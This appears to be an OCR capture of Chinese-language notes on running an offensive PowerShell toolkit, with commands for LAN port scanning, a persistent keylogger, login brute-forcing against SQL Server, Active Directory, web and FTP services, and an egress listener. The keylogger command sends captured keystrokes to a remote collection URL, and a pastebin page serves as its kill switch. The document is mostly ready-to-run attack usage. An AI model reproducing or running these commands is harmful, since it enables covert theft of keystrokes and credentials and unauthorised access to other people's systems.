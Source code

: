 ```pythn


## 获取帮助参数  Get-Help

Get-Help Invoke-PortScan


## 端口扫描

查看帮助信息
Get-Help Invoke-PortScan -full
Invoke-PortScan
Invoke-PortScan -StartAddress 192.168.0.100 -EndAddress 192.168.0.155 -ResolveHost 



# cd 切换到对应目录

## 测试键盘记录:  

Get-Help .\Keylogger.ps1 --full   # 查看帮助（提供了四种方式记录）
#-URL 要把记录发Keylogger送到的置顶的远程服务器    ,    -CheckURL 会检查所给出的网页中是够包含“MagicString”， 如果有就停止记录
.\gather\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.254.226/data/catch.php 

# 解释： 将记录指定发送给一个可以记录Post请求的Web服务器

# 默认保存到(内容是ascii码)： Windows/Temp/key.log

# 把ascii记录解析为非ascii：

Parse_Keys .\key.log .\parsed.txt

# 持久化记录（重启之后也记录）

.\Keylogger.ps1 -persist



## 爆破口令  在scan目录下面

#用于对SQL Server、域控制器、Web和FTP弱口令爆破
Invoke-BruteForce
#命令参数如下
-ComputerName    # 对应服务的计算机名
-UserList  用户名字典
-PasswordList  密码字典
-Service 服务（默认为：SQL）
-StopOnSuccess   匹配一个后停止
-Delay    延迟时间
#比如
Invoke-BruteForce -ComputerName  xx-PC  -UserList user.txt  -PasswordList pass.txt  -Service ActiveDirectory  -Verbose


# 内网扫描器

# 用于对内网进行扫描，打开本地监听，然后远程传送数据，把把发送给FireListener

#1.在本机开启监听
FireListener 130-150
#2.在目标机器输入命令：
FireListener 192.168.0.107 130-150 -Verbose
```